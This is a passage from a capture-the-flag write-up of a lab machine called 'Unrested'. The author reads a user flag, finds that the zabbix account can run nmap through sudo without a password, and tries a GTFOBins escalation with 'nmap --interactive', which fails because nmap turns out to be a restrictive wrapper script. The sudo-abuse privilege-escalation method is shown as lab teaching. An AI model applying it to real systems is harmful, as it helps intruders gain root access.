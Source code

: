 ```
zabbix@unrested:/home/matthew$ cat user.txt 
cat user.txt 
57b6d980e9<REDACTED>5b4e9d24
```

We discover that our zabbix user can perform **`sudo`** on the **`/usr/bin/nmap`** binary without supplying a password.
```
zabbix@unrested:/home/matthew$ sudo -l
sudo -l
Matching Defaults entries for zabbix on unrested:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty

User zabbix may run the following commands on unrested:
(ALL : ALL) NOPASSWD: /usr/bin/nmap *
```

We try to exploit it using the information provided by [**GTFOBins**](https://gtfobins.github.io/gtfobins/nmap/), unfortunately without any success.
```
zabbix@unrested:/home/matthew$ sudo /usr/bin/nmap --interactive
sudo /usr/bin/nmap --interactive
Interactive mode is disabled for security reasons.
```

We enumerate further and find that the **`/usr/bin/nmap`** binary is actually a bash script.

![Nmap Bash Script](https://github.com/HaidarCoffee/HTBWriteups/blob/main/Linux/Medium/Unrested/Screenshots/8_nmap_script.png?raw=true)

The script checks for restricted options that include the methods provided by **GTFOBins**.

